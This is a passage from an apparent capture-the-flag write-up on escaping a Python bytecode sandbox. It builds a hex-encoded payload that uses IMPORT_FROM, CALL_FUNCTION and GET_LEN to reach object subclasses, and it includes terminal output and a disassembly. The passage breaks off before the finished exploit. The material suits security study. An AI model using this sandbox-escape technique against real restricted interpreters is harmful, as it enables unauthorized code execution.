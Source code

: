 Manual testing confirmed our suspicion that `IMPORT_FROM` worked as desired, so it was now time to create a payload.


### Developing a Payload With Restrictions
A lot of testing and trial & error was performed at this point to get a payload that would work. Getting the payload `"".__class__.__base__.__subclasses__` to work was fairly simple, however we ran into errors doing `"".__class__.__base__.__subclasses__()`. 

```
$ python3 main.py 
consts: ''
names: __class__,__base__,__subclasses__
code: 64006d006d016d025300
here goes!
<built-in method __subclasses__ of type object at 0x55bf92bc3640>

$ python3 main.py 
consts: ''
names: __class__,__base__,__subclasses__
code: 64006d006d016d02a1005300
here goes!
Traceback (most recent call last):
  File "/home/justin/tmp/lactf/main.py", line 51, in <module>
    p(r(f()))
  File "/home/justin/tmp/lactf/main.py", line -1, in f
TypeError: object() takes no arguments
```

The opcode used above was `CALL_METHOD`, so I tried `CALL_FUNCTION` and it works! Apparently the two ways for calling functions is by pairing `LOAD_METHOD` and `CALL_METHOD`, or `LOAD_ATTR` and `CALL_FUNCTION`. 

The next issue we ran into was getting a number on the stack. Because `main.py` used the `input()` function to get the data, everything was treated as a string. Inserting `1` as a const would always have it render as `'1'`. After some research, we settled on the `GET_LEN` opcode, which just ran the `len()` function on the item on top of the stack. Since our first constant was just an empty string, and the actual value of the string didn't matter (aka `"".__class__` and `"abcd".__class__` are the same), we could load that const onto the stack again and run `GET_LEN` to put the length of that string onto the stack. We could just set the length of the initial string to whatever we want to obtain the desired integer. 

However, a second hiccup was encountered that required 2 additional opcodes to bypass. `GET_LEN` pushed the integer we wanted onto the stack, but kept the loaded string on there too, which we didn't want. I had to insert an extra `ROT_TWO` and `POP_TOP` opcode to switch the order and remove the string from the opcode. 

At this point, the payload we had was:

```
Python code: 'aaaa...aaa'.__class__.__base__.__subclasses__()[14]

consts: aaaa...aaa
names: __class__,__base__,__subclasses__
code: 64006d006d016d02830064001e000200010019005300


Disassembly:
6400 -> LOAD_CONST, consts[0] -> 'aaaa...aaa'
6d00 -> IMPORT_FROM, names[0] -> __class__
6d01 -> IMPORT_FROM, names[1] -> __base__
6d02 -> IMPORT_FROM, names[2] -> __subclasses__
8300 -> CALL_FUNCTION
6400 -> LOAD_CONST, consts[0] -> 'aaaa...aaa'
1e00 -> GET_LEN -> 14 or whatever we want
0200 -> ROT_TWO
0100 -> POP_TOP
```